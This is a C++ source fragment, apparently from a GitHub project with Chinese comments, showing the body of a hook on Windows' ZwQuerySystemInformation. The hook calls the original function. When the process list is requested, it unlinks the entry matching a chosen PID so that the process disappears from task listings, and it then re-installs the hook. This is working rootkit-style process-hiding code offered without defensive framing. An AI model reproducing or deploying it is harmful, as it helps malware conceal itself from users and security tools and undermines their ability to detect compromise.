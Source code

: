 ```c++
#ifdef _WIN64
    typedef DWORD(WINAPI* typedef_ZwQuerySystemInformation)(
        _In_      SYSTEM_INFORMATION_CLASS SystemInformationClass,
        _Inout_   PVOID                    SystemInformation,
        _In_      ULONG                    SystemInformationLength,
        _Out_opt_ PULONG                   ReturnLength
        );
#else
    typedef DWORD(WINAPI* typedef_ZwQuerySystemInformation)(
        _In_      SYSTEM_INFORMATION_CLASS SystemInformationClass,
        _Inout_   PVOID                    SystemInformation,
        _In_      ULONG                    SystemInformationLength,
        _Out_opt_ PULONG                   ReturnLength
        );
#endif
    typedef_ZwQuerySystemInformation ZwQuerySystemInformation = (typedef_ZwQuerySystemInformation)::GetProcAddress(hntdll, "ZwQuerySystemInformation");
    if (!ZwQuerySystemInformation) {
        std::cout << "[!] Get ZwQuerySystemInformation Addr Faild..\n";
        return status;
    }
    //调用原来的函数,第二个参数是返回请求的信息
    status = ZwQuerySystemInformation(SystemInformationClass, SystemInformation, SystemInformationLength, ReturnLength);
    if (NT_SUCCESS(status) && 5 == SystemInformationClass)
    {
        pCur = (PSYSTEM_PROCESS_INFORMATION)SystemInformation;
        while (TRUE)
        {
            // 判断是否是要隐藏的进程PID,是就把该进程信息删除
            if (dwHideProcessId == (DWORD)pCur->UniqueProcessId)
            {
                if (0 == pCur->NextEntryOffset)
                {
                    pPrev->NextEntryOffset = 0;
                }
                else
                {
                    pPrev->NextEntryOffset = pPrev->NextEntryOffset + pCur->NextEntryOffset;
                }
            }
            else
            {
                pPrev = pCur;
            }
            if (0 == pCur->NextEntryOffset)
            {
                break;
            }
            pCur = (PSYSTEM_PROCESS_INFORMATION)((BYTE*)pCur + pCur->NextEntryOffset);
        }
    }
    //挂钩
    hookZwQuerySystemInformation();
    return status;
}
```
